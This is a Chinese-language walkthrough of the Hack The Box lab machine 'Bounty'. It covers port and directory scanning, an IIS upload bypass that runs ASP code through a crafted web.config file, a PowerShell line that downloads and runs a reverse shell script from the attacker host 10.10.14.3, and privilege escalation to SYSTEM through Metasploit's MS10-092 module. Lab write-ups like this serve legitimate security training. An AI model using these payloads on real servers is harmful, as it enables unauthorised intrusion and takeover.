





信息收集¶
Namp¶
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.93 -oA scans/ports
...
PORT STATE SERVICE
80/tcp open http
...
root@kali# nmap -sT -sC -sV -O -p80 10.10.10.93 -oA scans/details
...
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 7.5
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
..
目录FUZZ¶
根据Microsoft IIS httpd 7.5知道这是windows server 2008 R2系统，一般都存在aspx动态网页文件…发现了tranfer.aspx

root@kali# gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x aspx
...
/transfer.aspx (Status: 200)
/aspnet_client (Status: 301) [Size: 156] [--> http://10.10.10.93/aspnet_client/]
/uploadedfiles (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedfiles/]
...
WEB服务¶

查看前端源码没发现什么…
tranfer.aspx：¶

transfer.aspx是一个文件上传页面,所有成功上传的文件都会到uploadedfiles下，不过这个目录下的文件过一段时间（几十秒）就会被删除.

使用BP，截断上传页面信息，使用intruder，爆破扩展名，发现允许上传的扩展名包括:gif,jpg,png,config。
在谷歌上搜索IIS httpd 7.5 upload rce，可以看看这两篇文章：
Upload a web.config File for Fun & Profit
如何简单理解呢？上传 .htaccess 文件以绕过上传文件的保护是一种已知技术，在这里上传web.config的作用和.htaccess类似。有时 IIS 支持 ASP 文件，但无法上传任何扩展名为 .ASP 的文件。在这种情况下，可以直接使用web.config文件来运行ASP经典代码。
什么是 web.config 文件？
web.config 文件是用于配置 ASP.NET 网站或 Web 应用程序的 XML 格式配置文件。它通常位于网站的根目录中，并包含了许多配置设置，例如数据库连接字符串、会话状态配置、身份验证设置、授权规则、错误处理方式以及其他与网站功能相关的设置。通过编辑 web.config 文件，开发人员可以对网站的行为进行广泛的调整和定制，而无需修改源代码。
漏洞利用¶
上传一个web.config文件，在注释里执行asp代码
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
<system.webServer>
<handlers accessPolicy="Read, Script, Write">
<add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
</handlers>
<security>
<requestFiltering>
<fileExtensions>
<remove fileExtension=".config" />
</fileExtensions>
<hiddenSegments>
<remove segment="web.config" />
</hiddenSegments>
</requestFiltering>
</security>
</system.webServer>
<appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("ipconfig")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-–>
上面文件上传以后访问http://10.10.10.93/uploadedfiles/web.config成功打印ipconfig命令
Windows IP Configuration
Ethernet adapter Local Area Connection:
Connection-specific DNS Suffix . :
IPv4 Address. . . . . . . . . . . : 10.10.10.93
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . : 10.10.10.2
Tunnel adapter isatap.{27C3F487-28AC-4CE6-AE3A-1F23518EF7A7}:
Media State . . . . . . . . . . . : Media disconnected
Connection-specific DNS Suffix . :
反弹shell¶
PowerShell的反弹shell和Linux中的bash反弹shell有什么区别?
- 语法差异：
PowerShell 使用对象管道（Object Pipeline）来处理数据，允许将对象传递给命令以及从命令中接收对象。这使得 PowerShell 可以直接处理和操作 .NET 对象。 Bash 则是基于文本流的，通常使用管道将文本传递给命令。它处理文本输入和输出，不支持直接操作对象。 2. 命令和函数： PowerShell 提供了大量的命令和函数，可以直接处理对象、操作文件系统、管理进程等。它具有丰富的功能和扩展性。 Bash 也提供了丰富的命令和函数，但相较于 PowerShell，它更专注于文本处理和系统级操作。 3. 跨平台性： PowerShell 最初是为 Windows 平台设计的，虽然在最近的版本中增加了对 Linux 和 macOS 的支持，但它的主要用户群体仍然是 Windows 用户。 Bash 是 Linux 和类 Unix 系统的标准 shell，几乎所有的 Linux 发行版都默认安装了它，因此它在跨平台方面更具优势。
参考链接:[Powershell反弹shell]
Nishanghttps://github.com/samratashok/nishang是一个基于PowerShell的攻击框架，集合了一些PowerShell攻击脚本和有效载荷，可反弹TCP/ UDP/ HTTP/HTTPS/ ICMP等类型shell。
首先，获取 Nishang 的 Invoke-PowerShellTcp.ps1 的副本。然后在末尾添加一行以调用对我的回调。
把web.config编辑成以下payload
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
<system.webServer>
<handlers accessPolicy="Read, Script, Write">
<add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
</handlers>
<security>
<requestFiltering>
<fileExtensions>
<remove fileExtension=".config" />
</fileExtensions>
<hiddenSegments>
<remove segment="web.config" />
</hiddenSegments>
</requestFiltering>
</security>
</system.webServer>
<appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.3/Invoke-PowerShellTcp.ps1')")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-–>
cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.3/Invoke-PowerShellTcp.ps1'：
- cmd.exe /c: 这部分启动了 Windows 命令提示符（cmd.exe）并执行 /c 参数指定的命令。/c 参数告诉 cmd.exe 在执行完指定的命令后关闭命令提示符窗口。
- powershell.exe: 这部分启动了 PowerShell 程序。
- -c: 这是 PowerShell 的参数，表示后面跟着的是一条命令。
- iex(new-object net.webclient).downloadstring('http://10.10.14.3/Invoke-PowerShellTcp.ps1'): 这是 PowerShell 命令。iex 是 Invoke-Expression 的简写，它用于执行从字符串中构建的命令。在这个例子中，iex 用于执行从远程服务器下载的 PowerShell 脚本。new-object net.webclient 创建了一个新的 .NET WebClient 对象，然后 downloadstring 方法用于从指定的 URL 下载字符串（即远程脚本的内容）。整个表达式的目的是下载远程脚本内容。
- 'http://10.10.14.3/Invoke-PowerShellTcp.ps1': 这是远程 PowerShell 脚本的 URL 地址，它将被下载并执行。
因此，整个命令的作用是从 http://10.10.14.3/Invoke-PowerShellTcp.ps1 下载 PowerShell 脚本并执行它，从而建立到攻击者控制的远程服务器的 TCP 连接，提供一个交互式的 PowerShell shell。
在本地开启一个http服务，准备传送Invoke-PowerShellTcp.ps1
kali开启监听接收反弹shell
上传以后，打开http://10.10.10.93/uploadedfiles/web.config页面，拿到初始shell
root@kali# nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.93] 49158
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\windows\system32\inetsrv>whoami
bounty\merlin
提权¶
webshell不太稳定，我们编译一个稳定的meterpreter
在靶机依次执行下面两行代码，把shell下载到靶机
$client = new-object System.Net.WebClient
$client.DownloadFile('http://10.10.14.3:8000/shell64.exe', 'C:\users\merlin\Desktop\shell64.exe')

参考链接：PowerShell 语法
powershell执行exe文件
拿到meterpreter以后，把winPEAS.bat 传到靶机，枚举提权漏洞
WinPEAS.bat 用于搜索在 Windows 主机上提升权限的可能路径。WinPEAS.bat 是为不支持 WinPEAS.exe 的 Windows 系统制作的批处理脚本，需要目标系统（.Net 4）环境，不支持打印输出颜色。如果要搜索可能包含密码的文件和注册表，需要在 WinPEAS.bat 脚本开头的long变量设置为 yes 。
WinPEAS.bat下载地址：https://www.ddosi.org/peass-ng/#%E2%91%A0WinPEAS%E7%94%A8%E6%B3%95%E5%8F%8A%E8%AF%B4%E6%98%8E
WinPEAS.bat使用地址：https://cloud.tencent.com/developer/article/2149150
"Microsoft Windows Server 2008 R2 Datacenter "
[i] Possible exploits (https://github.com/codingo/OSCP-2/blob/master/Windows/WinPrivCheck.bat)
MS11-080 patch is NOT installed XP/SP3,2K3/SP3-afd.sys)
MS16-032 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-secondary logon)
MS11-011 patch is NOT installed XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP1/2,7/SP0-WmiTraceMessageVa)
MS10-59 patch is NOT installed 2K8,Vista,7/SP0-Chimichurri)
MS10-21 patch is NOT installed 2K/SP4,XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP0/1/2,7/SP0-Win Kernel)
MS10-092 patch is NOT installed 2K8/SP0/1/2,Vista/SP1/2,7/SP0-Task Sched)
MS10-073 patch is NOT installed XP/SP2/3,2K3/SP2/2K8/SP2,Vista/SP1/2,7/SP0-Keyboard Layout)
MS17-017 patch is NOT installed 2K8/SP2,Vista/SP2,7/SP1-Registry Hive Loading)
MS10-015 patch is NOT installed 2K,XP,2K3,2K8,Vista,7-User Mode to Ring)
MS08-025 patch is NOT installed 2K/SP4,XP/SP2,2K3/SP1/2,2K8/SP0,Vista/SP0/1-win32k.sys)
MS06-049 patch is NOT installed 2K/SP4-ZwQuerySysInfo)
MS06-030 patch is NOT installed 2K,XP/SP2-Mrxsmb.sys)
MS05-055 patch is NOT installed 2K/SP4-APC Data-Free)
MS05-018 patch is NOT installed 2K/SP3/4,XP/SP1/2-CSRSS)
MS04-019 patch is NOT installed 2K/SP2/3/4-Utility Manager)
MS04-011 patch is NOT installed 2K/SP2/3/4,XP/SP0/1-LSASS service BoF)
MS04-020 patch is NOT installed 2K/SP4-POSIX)
MS14-040 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-afd.sys Dangling Pointer)
MS16-016 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-WebDAV to Address)
MS15-051 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-win32k.sys)
MS14-070 patch is NOT installed 2K3/SP2-TCP/IP)
MS13-005 patch is NOT installed Vista,7,8,2008,2008R2,2012,RT-hwnd_broadcast)
MS13-053 patch is NOT installed 7SP0/SP1_x86-schlamperei)
MS13-081 patch is NOT installed 7SP0/SP1_x86-track_popup_menu)
可以看见靶机很多补丁没有安装，逐个枚举，使用MS10-092
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > search MS10-092
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/windows/local/ms10_092_schelevator 2010-09-13 excellent Yes Windows Escalate Task Scheduler XML Privilege Escalation
Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/ms10_092_schelevator
msf6 exploit(windows/local/ms10_092_schelevator) > run
[*] Started reverse TCP handler on 10.10.14.3:4444
[*] Preparing payload at C:\Windows\TEMP\AoTizOUxSB.exe
[*] Creating task: LXJM4TwyEqICqyv
[*] SUCCESS: The scheduled task "LXJM4TwyEqICqyv" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\LXJM4TwyEqICqyv...
[*] Original CRC32: 0x866f314a
[*] Final CRC32: 0x866f314a
[*] Writing our modified content back...
[*] Validating task: LXJM4TwyEqICqyv
[*]
[*] Folder: \
[*] TaskName Next Run Time Status
[*] ======================================== ====================== ===============
[*] LXJM4TwyEqICqyv 1/1/2022 5:38:00 AM Ready
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "LXJM4TwyEqICqyv" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "LXJM4TwyEqICqyv" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (175174 bytes) to 10.10.10.93
[*] SUCCESS: Attempted to run the scheduled task "LXJM4TwyEqICqyv".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 2 opened (10.10.14.3:4444 -> 10.10.10.93:49175) at 2021-12-20 22:38:40 -0500
[*] SUCCESS: The scheduled task "LXJM4TwyEqICqyv" was successfully deleted.
[*] SCHELEVATOR
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
已经拿到SYSTEM权限，至此我们可以读取系统内任何文件。
总结¶
本文渗透的是windows主机，nmap扫描出中间件是IIS7.5，通过网页信息知道靶机运行aspx程序
爆破时选择字典指定了扩展名aspx
当得知有一个上传点时，优先需要知道中间件的解析漏洞信息，以及rce利用信息
通过rce得到初始shell
提权的时候，看到初始用户开启了SeImpersonatePrivilege,也可以考虑用potato提权
nishang框架是什么：
Nishang是一个PowerShell攻击框架，它是PowerShell攻击脚本和有效载荷的一个集合。
项目下载地址：https://github.com/samratashok/nishang
Nishang powershell框架——使用教程：https://blog.csdn.net/weixin_40412037/article/details/115510209
Windows安全之powershell反弹shell：https://blog.csdn.net/qq1113673178/article/details/123888025